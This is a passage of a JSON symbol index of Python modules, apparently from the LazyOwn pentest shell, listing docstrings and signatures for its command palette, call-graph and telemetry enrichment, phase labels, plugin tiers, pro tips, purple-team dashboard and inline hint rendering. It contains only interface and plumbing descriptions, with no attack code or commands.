"line": 619, "name": "build_palette_view", "signature": "def build_palette_view(index)"}, {"doc": "Best-effort graph and telemetry enrichment for a list of view rows.\n\nBehaves identically to :func:`_enrich_detail_entry` but in batch — and\nsilently degrades to a copy of the input when graphify or telemetry data\nis absent so the C2 view never blocks on a missing artefact.", "kind": "function", "line": 665, "name": "_enrich_commands_for_view", "signature": "def _enrich_commands_for_view(rows)"}, {"doc": "Guarantee every view row carries ``calls``/``related`` keys.\n\nWhen neither graphify nor telemetry data is present the enrichment\npasses rows through untouched, so this normaliser adds empty neighbour\nlists to keep the view payload schema stable — matching the guarantee\n``render_json`` detail mode already makes for MCP consumers.\n\nArgs:\n    rows: Command view rows, possibly missing neighbour keys.\n\nReturns:\n    A list of row dicts each carrying ``calls`` and ``related`` keys.", "kind": "function", "line": 689, "name": "_ensure_neighbour_keys", "signature": "def _ensure_neighbour_keys(rows)"}, {"doc": "Return the most-recently invoked commands or an empty list on failure.\n\nUsed by :func:`build_palette_view` to populate the Cmd+K overlay's\n\"Recent\" section without tying the function to the telemetry import.", "kind": "function", "line": 712, "name": "_load_recent_commands", "signature": "def _load_recent_commands()"}, {"doc": "Return phase identifiers in display order honouring the config order.", "kind": "function", "line": 728, "name": "_ordered_phase_ids", "signature": "def _ordered_phase_ids(config, phase_counts)"}, {"doc": "Tokenisation snapshot produced by :class:`PaletteCompleter`.", "kind": "class", "line": 737, "name": "CompletionPosition", "signature": "class CompletionPosition"}, {"doc": "Data-driven tab completion for ``palette``.\n\nPosition rules:\n\n- First positional: phase identifiers and the verbs ``--search`` and\n  ``--info``.\n- Second positional after a phase: command names belonging to that phase.\n- Second positional after ``--info``: every canonical command name.", "kind": "class", "line": 744, "name": "PaletteCompleter", "signature": "class PaletteCompleter"}, {"doc": "Trim ``summary`` to :attr:`summary_max_chars` with marker suffix.\n\nArgs:\n    summary: The raw summary string from the command index.\n\nReturns:\n    A safe single-line representation; empty string when ``summary``\n    is falsy.", "kind": "method", "line": 107, "name": "truncate_summary", "signature": "def truncate_summary(self, summary)"}, {"kind": "method", "line": 149, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return a :class:`PaletteArgs` for ``line``.\n\nArgs:\n    line: The raw text passed to ``do_palette`` (already stripped of\n        the leading ``palette`` verb by cmd2).\n    known_phases: Iterable of phase identifiers from the command\n        index — used to disambiguate single-token invocations.", "kind": "method", "line": 152, "name": "parse", "signature": "def parse(self, line)"}, {"kind": "method", "line": 193, "name": "__init__", "signature": "def __init__(self, index)"}, {"doc": "Return canonical (non-duplicate) command entries.", "kind": "method", "line": 197, "name": "commands", "signature": "def commands(self)"}, {"doc": "Return the sorted list of phase identifiers in the index.", "kind": "method", "line": 203, "name": "phases", "signature": "def phases(self)"}, {"doc": "Return ``{phase: command_count}`` for every phase in the index.", "kind": "method", "line": 208, "name": "phase_counts", "signature": "def phase_counts(self)"}, {"doc": "Return commands whose ``phase`` matches ``phase`` (case-insensitive).", "kind": "method", "line": 213, "name": "in_phase", "signature": "def in_phase(self, phase)"}, {"doc": "Substring search over ``name`` and ``summary`` (case-insensitive).\n\nArgs:\n    query: Free-form search term.\n    limit: Maximum number of rows to return; values below 1 yield an\n        empty list.", "kind": "method", "line": 218, "name": "search", "signature": "def search(self, query)"}, {"doc": "Return the canonical entry for ``target`` or ``None``.\n\nAccepts both ``do_assign`` and ``assign`` forms.", "kind": "method", "line": 234, "name": "detail", "signature": "def detail(self, target)"}, {"doc": "Return the phase that comes after ``current`` in ``ordering``.\n\nArgs:\n    current: Reference phase. ``None`` returns the first phase that\n        is present in both ``ordering`` and the index.\n    ordering: The kill-chain ordering — typically\n        :attr:`PaletteRenderConfig.overview_phase_order`.\n\nReturns:\n    The next phase identifier present in the index, or ``None`` when\n    ``current`` is the final configured phase.", "kind": "method", "line": 249, "name": "next_phase", "signature": "def next_phase(self, current)"}, {"kind": "method", "line": 285, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Format the multi-phase overview table.", "kind": "method", "line": 288, "name": "render_overview", "signature": "def render_overview(self, phase_counts)"}, {"doc": "Format a phase listing of ``(name, summary)`` pairs.", "kind": "method", "line": 304, "name": "render_phase", "signature": "def render_phase(self, phase, rows)"}, {"doc": "Format the cross-phase search result table.", "kind": "method", "line": 312, "name": "render_search", "signature": "def render_search(self, query, rows)"}, {"doc": "Format the detail view for a single command entry.\n\nWhen ``entry`` carries graph-derived ``calls`` or ``related`` keys\n(attached by :func:`cli.palette_graph.enrich_detail`), those lists\nappear as additional rows so operators can see what the command\nactually invokes and which other commands work like it.", "kind": "method", "line": 320, "name": "render_detail", "signature": "def render_detail(self, entry)"}, {"doc": "Format the recommended-next-phase listing.", "kind": "method", "line": 360, "name": "render_next", "signature": "def render_next(self, phase, rows)"}, {"doc": "Join graph-derived neighbour labels with the configured separator.", "kind": "method", "line": 370, "name": "_format_neighbours", "signature": "def _format_neighbours(self, values)"}, {"kind": "method", "line": 376, "name": "_ordered_phases", "signature": "def _ordered_phases(self, phase_counts)"}, {"kind": "method", "line": 383, "name": "_format_name_summary_table", "signature": "def _format_name_summary_table(self, header, rows)"}, {"doc": "Serialise to a plain ``dict`` suitable for ``json.dumps``.", "kind": "method", "line": 502, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 522, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Build a result document for overview mode.", "kind": "method", "line": 525, "name": "render_overview", "signature": "def render_overview(self, phase_counts)"}, {"doc": "Build a result document for phase mode.", "kind": "method", "line": 532, "name": "render_phase", "signature": "def render_phase(self, phase, query, rows)"}, {"doc": "Build a result document for search mode.", "kind": "method", "line": 541, "name": "render_search", "signature": "def render_search(self, query, rows)"}, {"doc": "Build a result document for detail mode.", "kind": "method", "line": 549, "name": "render_detail", "signature": "def render_detail(self, target, entry)"}, {"doc": "Build a result document for next-phase mode.", "kind": "method", "line": 557, "name": "render_next", "signature": "def render_next(self, phase, rows)"}, {"kind": "method", "line": 755, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Return tab-completion candidates given the editor state.", "kind": "method", "line": 758, "name": "complete", "signature": "def complete(self, text, line, endidx, index)"}, {"kind": "method", "line": 784, "name": "_tokenise", "signature": "def _tokenise(self, line, endidx)"}, {"kind": "method", "line": 797, "name": "_filter_prefix", "signature": "def _filter_prefix(candidates, text)"}]}, {"doc": "Graph-aware neighbour lookups for the operator command palette.  The graphify export at :file:`graphify-out/graph_lazyown.json` captures the call graph of every ``do_*`` command together with its helper functions and classes. This module reads that artefact once per process and exposes a tiny read-only API so the palette CLI, the C2 web view and the MCP tool can all attach the same \"what does this command actually do\" / \"what other commands work like this one\" hints to a detail view.  Design constraints driving the shape of this module:  - Single Responsibility — :class:`GraphIndex` only loads and caches; pure functions like :func:`callees`, :func:`related_commands` and :func:`enrich_detail` translate it into palette-friendly shapes. - Open/Closed — every threshold, edge label and limit lives on :class:`GraphLookupConfig`; new neighbour types mean adding a function, not editing existing call sites. - Dependency Inversion — every public entry point accepts the parsed graph document, never reads it from disk on its own. Callers wire the loader through :func:`load_graph` so tests can inject fixtures. - Sad path is a no-op. A missing or malformed graph file degrades to empty results so the palette stays usable on hosts that never ran graphify.", "id": "cli/palette_graph.py", "kind": "module", "label": "palette_graph.py", "language": "py", "sha256": "4d580e8a5498de68", "symbol_count": 13, "symbols": [{"doc": "Raised when the graphify export is missing or malformed.", "kind": "class", "line": 39, "name": "GraphIndexError", "signature": "class GraphIndexError(RuntimeError)"}, {"doc": "Centralised constants for graph-driven palette enrichment.\n\nEvery literal that affects neighbour selection lives here so behaviour is\ntunable without touching call sites. ``frozen=True`` prevents accidental\nmutation by per-surface consumers.", "kind": "class", "line": 44, "name": "GraphLookupConfig", "signature": "class GraphLookupConfig"}, {"doc": "Return ``True`` for graph labels that name a ``do_*`` command.", "kind": "function", "line": 63, "name": "_looks_like_command_label", "signature": "def _looks_like_command_label(label)"}, {"doc": "Strip the trailing ``()`` from a callable graph label.", "kind": "function", "line": 68, "name": "_command_name_from_label", "signature": "def _command_name_from_label(label)"}, {"doc": "Read-only adjacency view derived from the graphify document.\n\nAttributes:\n    adjacency: ``{node_id: [(other_id, relation, confidence), ...]}``\n        — symmetric, deduplicated edge list.\n    node_labels: ``{node_id: label}`` for every node in the graph.\n    command_to_node: ``{do_name_without_parens: node_id}`` resolver for\n        command lookups.", "kind": "class", "line": 74, "name": "GraphIndex", "signature": "class GraphIndex"}, {"doc": "Translate a graphify JSON document into :class:`GraphIndex`.", "kind": "function", "line": 90, "name": "_build_adjacency", "signature": "def _build_adjacency(document)"}, {"doc": "Return the parsed graph index, cached per resolved path.\n\nArgs:\n    path: Override the default graph location. ``None`` uses\n        :data:`DEFAULT_GRAPH_PATH`.\n\nReturns:\n    A :class:`GraphIndex`. When the file is missing or invalid the\n    function raises :class:`GraphIndexError`; callers that want graceful\n    degradation should use :func:`safe_load_graph` instead.", "kind": "function", "line": 127, "name": "load_graph", "signature": "def load_graph(path)"}, {"doc": "Best-effort variant of :func:`load_graph`.\n\nReturns ``None`` instead of raising so the palette stays usable on hosts\nthat have never run graphify.", "kind": "function", "line": 149, "name": "safe_load_graph", "signature": "def safe_load_graph(path)"}, {"doc": "Filter raw neighbour tuples by relation and confidence policy.", "kind": "function", "line": 161, "name": "_filter_neighbours", "signature": "def _filter_neighbours(neighbours)"}, {"doc": "Return helper-function labels invoked by ``command_name``.\n\nArgs:\n    graph: The loaded graph index (or ``None``; in which case the result\n        is an empty list).\n    command_name: A ``do_*`` command name with or without the ``do_``\n        prefix.\n    config: Optional override for the lookup config.\n\nReturns:\n    At most :attr:`GraphLookupConfig.callee_limit` distinct labels,\n    sorted alphabetically. Internal noise such as ``.cmd()`` is excluded.", "kind": "function", "line": 179, "name": "callees", "signature": "def callees(graph, command_name)"}, {"doc": "Return ``do_*`` commands that share helper functions with this one.\n\nTwo commands are \"related\" when they call at least\n:attr:`GraphLookupConfig.related_min_shared_helpers` of the same helper\nnodes. This surfaces structurally similar commands without requiring an\nexplicit ``runs_after`` annotation in the graph.\n\nArgs:\n    graph: The loaded graph index (or ``None``).\n    command_name: A ``do_*`` command name with or without the ``do_``\n        prefix.\n    config: Optional override for the lookup config.\n\nReturns:\n    At most :attr:`GraphLookupConfig.related_limit` command names,\n    ordered by descending overlap then alphabetical.", "kind": "function", "line": 226, "name": "related_commands", "signature": "def related_commands(graph, command_name)"}, {"doc": "Attach ``calls`` and ``related`` lists to a palette detail entry.\n\nThe returned dict is a shallow copy so the underlying command index is\nnever mutated. ``None`` input passes through unchanged so callers can\ndelegate the missing-target sad path to the renderer.", "kind": "function", "line": 287, "name": "enrich_detail", "signature": "def enrich_detail(graph, entry)"}, {"doc": "Enrich every entry of ``rows`` with neighbour data.\n\nUsed by the C2 view and the Cmd+K overlay so the client-side renderer\ncan show \"calls\" / \"related\" per row without round-tripping.", "kind": "function", "line": 309, "name": "enrich_commands", "signature": "def enrich_commands(graph, rows)"}]}, {"doc": "Textual Cmd-K palette overlay for the LazyOwn shell.  The overlay is a modal command launcher: the operator presses a single hotkey, types a fuzzy query against every ``do_*`` command, picks one with the arrow keys and gets the verb echoed back to the shell. It shares the index, filtering and ranking logic with the existing ``cli.palette_command`` and ``cli.palette_telemetry`` modules so the C2 ``/palette`` view, the MCP ``lazyown_palette`` tool and the CLI overlay always agree on what is searchable.  Design (SOLID):  - Single Responsibility: :class:`PaletteOverlayConfig` owns constants, :class:`PaletteOverlayState` performs filtering and ranking, :class:`PaletteOverlayApp` (Textual) renders. The launcher :func:`launch_overlay` wires them together and returns the selected command name. - Dependency Inversion: the state takes an already-loaded index and the recents list so tests never have to touch the filesystem. - Open/Closed: ranking strategies live behind a method that subclasses can override; the default ranks by recency boost + substring match. - No magic numbers/paths: every limit and label lives in the config. - Textual is imported lazily so importing this module on a host without Textual does not error — the launcher returns ``None`` instead.", "id": "cli/palette_overlay.py", "kind": "module", "label": "palette_overlay.py", "language": "py", "sha256": "7a6a594e0842c400", "symbol_count": 24, "symbols": [{"doc": "Centralised constants for the overlay.", "kind": "class", "line": 38, "name": "PaletteOverlayConfig", "signature": "class PaletteOverlayConfig"}, {"doc": "Immutable row produced by :class:`PaletteOverlayState`.", "kind": "class", "line": 59, "name": "PaletteRow", "signature": "class PaletteRow"}, {"doc": "Pure data layer for the overlay.\n\nThe state owns the loaded command index, the recents list and the\ncurrent query string. It exposes :meth:`rows` which returns the\ndeterministic, ranked list of :class:`PaletteRow` for rendering.", "kind": "class", "line": 70, "name": "PaletteOverlayState", "signature": "class PaletteOverlayState"}, {"doc": "Return the operator's most-recent command names or an empty tuple.", "kind": "function", "line": 136, "name": "_load_recents", "signature": "def _load_recents()"}, {"kind": "function", "line": 151, "name": "_load_index", "signature": "def _load_index()"}, {"doc": "Wire the canonical state used by :func:`launch_overlay`.\n\nArgs:\n    payload: Loaded ``payload.json`` (only used to pick the theme).\n    index: Optional pre-loaded command index (tests inject one).\n    recents: Optional pre-loaded recents list.\n    config: Optional override for the overlay configuration.\n\nReturns:\n    A ready-to-use :class:`PaletteOverlayState`, or ``None`` when the\n    command index is unavailable.", "kind": "function", "line": 162, "name": "build_state", "signature": "def build_state(payload, index, recents, config)"}, {"doc": "Open the Textual overlay and return the selected command verb.\n\nArgs:\n    payload: Loaded ``payload.json``; used to pick the theme.\n    state: Optional pre-built state (tests inject one).\n    runner: Optional callable that takes the Textual app and returns\n        the selected command name. Tests substitute a no-Textual\n        runner; production passes ``None`` and the function falls\n        back to ``app.run()``.\n\nReturns:\n    The chosen command name (``do_<verb>`` form preserved) or\n    ``None`` when the overlay was cancelled or could not be opened.", "kind": "function", "line": 188, "name": "launch_overlay", "signature": "def launch_overlay(payload, state, runner)"}, {"doc": "Construct the Textual app lazily; return ``None`` when unavailable.", "kind": "function", "line": 228, "name": "_build_app", "signature": "def _build_app(state, theme)"}, {"doc": "Replace the active query with ``value`` (trimmed).", "kind": "method", "line": 83, "name": "set_query", "signature": "def set_query(self, value)"}, {"doc": "Return the ranked, truncated rows for the current query.", "kind": "method", "line": 87, "name": "rows", "signature": "def rows(self)"}, {"kind": "method", "line": 113, "name": "_score", "signature": "def _score(self, name, summary, needle, is_recent)"}, {"kind": "method", "line": 130, "name": "_truncate", "signature": "def _truncate(self, value, max_chars)"}, {"kind": "class", "line": 240, "name": "_PaletteOverlayApp", "signature": "class _PaletteOverlayApp(App)"}, {"kind": "method", "line": 255, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 261, "name": "compose", "signature": "def compose(self)"}, {"kind": "method", "line": 269, "name": "on_mount", "signature": "def on_mount(self)"}, {"kind": "method", "line": 272, "name": "on_input_changed", "signature": "def on_input_changed(self, event)"}, {"kind": "method", "line": 276, "name": "on_input_submitted", "signature": "def on_input_submitted(self, event)"}, {"kind": "method", "line": 279, "name": "on_list_view_selected", "signature": "def on_list_view_selected(self, event)"}, {"kind": "method", "line": 282, "name": "action_cancel", "signature": "def action_cancel(self)"}, {"kind": "method", "line": 285, "name": "action_select_current", "signature": "def action_select_current(self)"}, {"kind": "method", "line": 292, "name": "_commit_from_item", "signature": "def _commit_from_item(self, item)"}, {"kind": "method", "line": 300, "name": "_refresh_rows", "signature": "def _refresh_rows(self)"}, {"kind": "method", "line": 314, "name": "_format_row", "signature": "def _format_row(self, row)"}]}, {"doc": "Behavioural telemetry derived from ``sessions/LazyOwn_session_report.csv``.  The CLI logs every executed command to a CSV file. This module reads that artefact once per process and exposes a tiny read-only API so the palette CLI, the C2 web overlay and the MCP detail view can all attach the same \"how often did this run\" / \"what runs after it\" / \"what did I just use\" hints to a detail entry without duplicating parsing logic.  Design constraints driving the shape of this module:  - Single Responsibility — :class:`TelemetryIndex` only loads and caches; pure functions like :func:`command_stats`, :func:`runs_after` and :func:`recents` translate it into palette-friendly shapes. - Open/Closed — every threshold, field name and limit lives on :class:`TelemetryConfig`; new aggregations mean adding a function, not editing existing call sites. - Dependency Inversion — every public entry point accepts the parsed telemetry index, never reads it from disk on its own. Callers wire the loader through :func:`load_telemetry` so tests can inject fixtures. - Sad path is a no-op. A missing or malformed CSV degrades to an empty index so the palette stays usable on hosts that have never run a command.", "id": "cli/palette_telemetry.py", "kind": "module", "label": "palette_telemetry.py", "language": "py", "sha256": "90fa93bc4fc0311a", "symbol_count": 14, "symbols": [{"doc": "Raised when the telemetry CSV is malformed in a way callers must see.", "kind": "class", "line": 37, "name": "TelemetryIndexError", "signature": "class TelemetryIndexError(RuntimeError)"}, {"doc": "Centralised constants for behavioural telemetry parsing.\n\nEvery literal that affects telemetry derivation lives here so behaviour\nis tunable without touching call sites. ``frozen=True`` prevents\naccidental mutation by per-surface consumers.", "kind": "class", "line": 42, "name": "TelemetryConfig", "signature": "class TelemetryConfig"}, {"doc": "Aggregated invocation data for a single ``do_*`` command.\n\nAttributes:\n    name: Canonical ``do_<verb>`` form so the value plugs straight into\n        the command-index key space.\n    runs: Total number of invocations seen in the CSV.\n    last_seen: ISO timestamp of the most recent invocation, or the\n        empty string when the CSV row carried no timestamp.", "kind": "class", "line": 61, "name": "CommandStat", "signature": "class CommandStat"}, {"doc": "Read-only view derived from the session CSV.\n\nAttributes:\n    stats_by_command: ``{do_<verb>: CommandStat}`` for every command\n        seen in the CSV.\n    recent_order: ``do_<verb>`` names in most-recent-first order, with\n        duplicates collapsed. Truncated to\n        :attr:`TelemetryConfig.recents_limit`.\n    cooccurrence: ``{do_<verb>: ((do_<other>, count), ...)}`` listing\n        commands that ran shortly after ``do_<verb>`` within the\n        configured window, sorted by descending frequency.", "kind": "class", "line": 78, "name": "TelemetryIndex", "signature": "class TelemetryIndex"}, {"doc": "Return the canonical ``do_<verb>`` form for a CSV ``command`` field.", "kind": "function", "line": 97, "name": "_normalise_command", "signature": "def _normalise_command(value)"}, {"doc": "Return the parsed rows of ``path``.\n\nA missing file returns an empty list so the loader stays best-effort.\nRows lacking the ``command`` column are dropped silently.", "kind": "function", "line": 107, "name": "_read_csv_rows", "signature": "def _read_csv_rows(path)"}, {"doc": "Translate a list of CSV rows into :class:`TelemetryIndex`.\n\nThe aggregation walks the rows once collecting:\n\n- per-command counters and last-seen timestamps,\n- the ordered list of invocations for recency and co-occurrence.\n\nCo-occurrence pairs ``A -> B`` are emitted whenever ``B`` appears within\n:attr:`TelemetryConfig.cooccurrence_window` rows after ``A``; pairs that\ndo not reach :attr:`TelemetryConfig.cooccurrence_min_count` are dropped.", "kind": "function", "line": 123, "name": "_build_index", "signature": "def _build_index(rows)"}, {"doc": "Return the parsed telemetry index, cached per resolved path.\n\nArgs:\n    path: Override the default CSV location. ``None`` uses\n        :data:`DEFAULT_TELEMETRY_PATH`.\n\nReturns:\n    A :class:`TelemetryIndex`. When the file is missing the function\n    returns an empty index; callers that want to surface parse errors\n    should catch :class:`TelemetryIndexError`.", "kind": "function", "line": 186, "name": "load_telemetry", "signature": "def load_telemetry(path)"}, {"doc": "Best-effort variant of :func:`load_telemetry`.\n\nReturns ``None`` instead of raising so the palette stays usable on hosts\nwhere the CSV is malformed.", "kind": "function", "line": 204, "name": "safe_load_telemetry", "signature": "def safe_load_telemetry(path)"}, {"doc": "Return aggregated stats for ``command_name`` or ``None`` when unseen.\n\nArgs:\n    telemetry: The loaded telemetry index, or ``None`` for a no-op.\n    command_name: A ``do_*`` command name with or without the ``do_``\n        prefix.\n    config: Optional override for the lookup config.", "kind": "function", "line": 216, "name": "command_stats", "signature": "def command_stats(telemetry, command_name)"}, {"doc": "Return commands that frequently run after ``command_name``.\n\nSorted by descending frequency; ties broken alphabetically. The list is\ntruncated to :attr:`TelemetryConfig.cooccurrence_limit` entries.", "kind": "function", "line": 239, "name": "runs_after", "signature": "def runs_after(telemetry, command_name)"}, {"doc": "Return the most-recently invoked unique ``do_*`` commands.\n\nOrder is most-recent-first; truncated to\n:attr:`TelemetryConfig.recents_limit` entries.", "kind": "function", "line": 259, "name": "recents", "signature": "def recents(telemetry)"}, {"doc": "Attach ``runs``, ``last_seen`` and ``runs_after`` to a detail entry.\n\nThe returned dict is a shallow copy so the underlying command index is\nnever mutated. ``None`` input passes through unchanged so callers can\ndelegate the missing-target sad path to the renderer.", "kind": "function", "line": 275, "name": "enrich_detail", "signature": "def enrich_detail(telemetry, entry)"}, {"doc": "Enrich every entry of ``rows`` with telemetry data.\n\nUsed by the C2 view and the Cmd+K overlay so the client-side renderer\ncan show ``runs`` badges per row without round-tripping.", "kind": "function", "line": 300, "name": "enrich_commands", "signature": "def enrich_commands(telemetry, rows)"}]}, {"doc": "Canonical human-readable labels for kill-chain command phases.  Single source of truth for the phase display names used by the CLI hint system. The keys mirror the ``phase_to_commands`` buckets of ``cli/command_index.json`` (produced by ``scripts/build_command_index.py``) so every consumer renders the same label for the same phase key.", "id": "cli/phase_labels.py", "kind": "module", "label": "phase_labels.py", "language": "py", "sha256": "2cc77aaaef79daaf", "symbol_count": 1, "symbols": [{"doc": "Return the human label for a phase, falling back to title case.\n\nArgs:\n    phase: Canonical phase key (e.g. ``recon``).\n\nReturns:\n    The display label, or the title-cased key when unknown.", "kind": "function", "line": 29, "name": "phase_label", "signature": "def phase_label(phase)"}]}, {"doc": "Plugin tiers and operator ratings for the marketplace.  Tiers separate what the core team maintains from community contributions and unvetted experiments:  - ``official``: shipped in-repo and maintained by the core team. - ``community``: default for everything else, including community clones. - ``experimental``: explicitly marked as unvetted; may break or change without notice.  Resolution order for a plugin name: explicit entry in ``plugins/tiers.yaml`` first, then a ``tier:`` field inside the plugin's own YAML metadata, then ``community``.  Ratings are operator-local (stored in ``sessions/plugin_ratings.json`` by default, never committed) and aggregate as a plain average with a count.", "id": "cli/plugin_tiers.py", "kind": "module", "label": "plugin_tiers.py", "language": "py", "sha256": "756ecc3762cc0e00", "symbol_count": 8, "symbols": [{"doc": "Load explicit tier overrides from a ``tiers.yaml`` manifest.\n\nArgs:\n    manifest: Path to a YAML mapping of plugin name to tier.\n\nReturns:\n    Mapping of plugin name to tier. Unknown tiers and malformed\n    entries are ignored so a bad manifest can never break listing.", "kind": "function", "line": 35, "name": "load_tier_manifest", "signature": "def load_tier_manifest(manifest)"}, {"doc": "Resolve the tier for a plugin name.\n\nArgs:\n    name: Plugin/addon/tool stem.\n    manifest_tiers: Explicit overrides from :func:`load_tier_manifest`.\n    metadata_tier: Value of the plugin YAML ``tier:`` field, if any.\n\nReturns:\n    The manifest tier, the metadata tier when valid, else ``community``.", "kind": "function", "line": 61, "name": "tier_of", "signature": "def tier_of(name, manifest_tiers, metadata_tier)"}, {"kind": "function", "line": 79, "name": "_load_ratings", "signature": "def _load_ratings(store)"}, {"doc": "Record an operator rating and return the new ``(average, count)``.\n\nArgs:\n    name: Plugin/addon/tool stem. Must be non-empty.\n    stars: Integer rating from 1 to 5.\n    store: JSON file holding the ratings map.\n\nRaises:\n    ValueError: When the name is empty or stars are outside 1-5.", "kind": "function", "line": 98, "name": "rate_plugin", "signature": "def rate_plugin(name, stars, store)"}, {"doc": "Return the ``(average, count)`` rating for a plugin name.\n\nArgs:\n    name: Plugin/addon/tool stem.\n    store: JSON file holding the ratings map.\n\nReturns:\n    ``(0.0, 0)`` when nobody rated the plugin yet.", "kind": "function", "line": 121, "name": "rating_summary", "signature": "def rating_summary(name, store)"}, {"doc": "Render a compact rating label for list and info views.", "kind": "function", "line": 137, "name": "format_rating", "signature": "def format_rating(average, count)"}, {"doc": "Return the default ratings file under ``<base_dir>/sessions``.", "kind": "function", "line": 144, "name": "default_store", "signature": "def default_store(base_dir)"}, {"doc": "Read the optional ``tier:`` field from a plugin YAML file.", "kind": "function", "line": 149, "name": "read_metadata_tier", "signature": "def read_metadata_tier(path)"}]}, {"doc": "Pro tips system for the LazyOwn shell.  Two surfaces: - Session-start tip: one contextual tip printed after the banner when the shell first starts (reads phase, os_id, rhost). - Post-command tip: a single dim line printed after graph hints when the just-executed command makes a related tool especially relevant.  Design constraints: - Zero imports from lazyown.py or lazyc2.py. - Never blocks the prompt — all rendering is non-interactive. - Respects enable_inline_hints=false (caller checks before calling). - Tips rotate; the same tip is never shown twice in a row.", "id": "cli/protips.py", "kind": "module", "label": "protips.py", "language": "py", "sha256": "9e5aaad340c635e1", "symbol_count": 13, "symbols": [{"doc": "A single contextual tip with a trigger condition and display text.", "kind": "class", "line": 34, "name": "ProTip", "signature": "class ProTip"}, {"kind": "function", "line": 43, "name": "_os_linux", "signature": "def _os_linux(ctx)"}, {"kind": "function", "line": 47, "name": "_os_windows", "signature": "def _os_windows(ctx)"}, {"kind": "function", "line": 51, "name": "_has_rhost", "signature": "def _has_rhost(ctx)"}, {"kind": "function", "line": 55, "name": "_has_domain", "signature": "def _has_domain(ctx)"}, {"kind": "function", "line": 59, "name": "_has_api_key", "signature": "def _has_api_key(ctx)"}, {"kind": "function", "line": 63, "name": "_phase_in", "signature": "def _phase_in(ctx)"}, {"doc": "Return True when the last command verb is one of cmds.", "kind": "function", "line": 67, "name": "_last_cmd_is", "signature": "def _last_cmd_is(ctx)"}, {"kind": "function", "line": 75, "name": "_after", "signature": "def _after(ctx)"}, {"doc": "Return a single tip to show at session start.\n\nPrefers tips that match the current context. Falls back to rotating\nthrough the session tip list so the operator sees something fresh each\nsession.\n\nArgs:\n    ctx: Context dict with keys: phase, os_id, rhost, domain, api_key.\n\nReturns:\n    Rich-formatted string, or None if tips are disabled.", "kind": "function", "line": 301, "name": "get_session_tip", "signature": "def get_session_tip(ctx)"}, {"doc": "Print a single dim tip line when the last command triggers one.\n\nCalled from the postcmd hook. Does nothing when no tip matches or when\nthe same tip would repeat.\n\nArgs:\n    last_cmd: Raw string of the command just executed.\n    ctx: Context dict with current session state.", "kind": "function", "line": 327, "name": "render_contextual_tip", "signature": "def render_contextual_tip(last_cmd, ctx)"}, {"doc": "Print the session-start tip (called once after the banner).\n\nArgs:\n    ctx: Context dict with current session state.", "kind": "function", "line": 357, "name": "print_session_tip", "signature": "def print_session_tip(ctx)"}, {"kind": "function", "line": 369, "name": "_safe_trigger", "signature": "def _safe_trigger(tip, ctx)"}]}, {"doc": "Purple Team Dashboard — Textual TUI for engagement monitoring.  Launch from the LazyOwn shell with ``purple_dashboard`` or directly:  python3 -m cli.purple_tui  Layout: ┌─ Header (session / score / detection rate) ────────────────────────┐ │  Left (Score + Methods)  │  Center (Recent Actions) │ Right (Stats)│ ├────────────────────────────────────────────────────────────────────┤ │  Footer ([Q] Quit  [R] Refresh  [E] Exec  [?] Help)              │ └───────────────────────────────────────────────────────────────────┘", "id": "cli/purple_tui.py", "kind": "module", "label": "purple_tui.py", "language": "py", "sha256": "21db6ba1d5c2a150", "symbol_count": 15, "symbols": [{"kind": "function", "line": 33, "name": "_load_score", "signature": "def _load_score()"}, {"kind": "function", "line": 42, "name": "_load_recent_results", "signature": "def _load_recent_results(n)"}, {"kind": "function", "line": 56, "name": "_dataset_stats", "signature": "def _dataset_stats()"}, {"kind": "function", "line": 65, "name": "_make_bar", "signature": "def _make_bar(value, width)"}, {"kind": "function", "line": 70, "name": "_color_rate", "signature": "def _color_rate(rate)"}, {"doc": "Textual TUI for purple team engagement monitoring.", "kind": "class", "line": 79, "name": "PurpleDashboard", "signature": "class PurpleDashboard(App)"}, {"doc": "Launch the purple team dashboard TUI.", "kind": "function", "line": 233, "name": "launch", "signature": "def launch()"}, {"kind": "method", "line": 98, "name": "compose", "signature": "def compose(self)"}, {"kind": "method", "line": 108, "name": "on_mount", "signature": "def on_mount(self)"}, {"kind": "method", "line": 112, "name": "action_refresh", "signature": "def action_refresh(self)"}, {"kind": "method", "line": 115, "name": "refresh_data", "signature": "def refresh_data(self)"}, {"kind": "method", "line": 125, "name": "_render_score", "signature": "def _render_score(self, score)"}, {"kind": "method", "line": 157, "name": "_render_methods", "signature": "def _render_methods(self, score)"}, {"kind": "method", "line": 173, "name": "_render_actions", "signature": "def _render_actions(self, results)"}, {"kind": "method", "line": 205, "name": "_render_stats", "signature": "def _render_stats(self, score, ds)"}]}, {"doc": "Non-blocking inline hint renderer for the LazyOwn cmd2 shell.  After each command executes, a single dim line is printed with the top-N graph-based next-step suggestions derived from the graphify knowledge graph. The GraphLoader caches by (path, mtime) so rendering is sub-millisecond after the first graph load; subsequent calls return from memory.  Design notes: - Zero coupling to cmd2, lazyown.py or Flask — this module is a pure renderer. - The caller decides whether hints are enabled (reads payload.json flag). - Output goes to stdout via rich so ANSI is handled correctly on all terminals. - Commands on SKIP_COMMANDS never produce hints (noise-free UX).", "id": "cli/reactive_hints.py", "kind": "module", "label": "reactive_hints.py", "language": "py", "sha256": "265764fb8496fb84", "symbol_count": 15, "symbols": [{"doc": "Print a single dim hint line below the command output and return immediately.\n\nThe line format is:\n    ↳ label_a · label_b · label_c\n\nThis renders between the command output and the next cmd2 prompt so it\nnever blocks the operator from typing the next command.\n\nArgs:\n    advisor: GraphAdvisor instance (reuses its internal mtime-keyed cache).\n    last_command: Raw command string that just executed (first token used).\n    limit: Maximum number of suggestions to display.\n    enabled: When False the function is a no-op. Controlled by the\n        ``enable_inline_hints`` key in payload.json.\n\nReturns:\n    None — side effect is at most one line written to stdout.", "kind": "function", "line": 220, "name": "render_inline_hints", "signature": "def render_inline_hints(advisor, last_command, limit, enabled)"}, {"kind": "function", "line": 262, "name": "_first_token", "signature": "def _first_token(raw)"}, {"kind": "function", "line": 267, "name": "_extract_labels", "signature": "def _extract_labels(suggestions, limit)"}, {"kind": "function", "line": 278, "name": "_truncate", "signature": "def _truncate(value, max_len)"}, {"kind": "function", "line": 284, "name": "_render", "signature": "def _render(labels)"}, {"doc": "A next-step suggestion enriched with its justification and confidence.\n\nThe bare inline hint prints only command names, forcing the operator to\ntrust an unexplained list. This value object carries the *why* and *how\nsure* so the hint line reads like advice 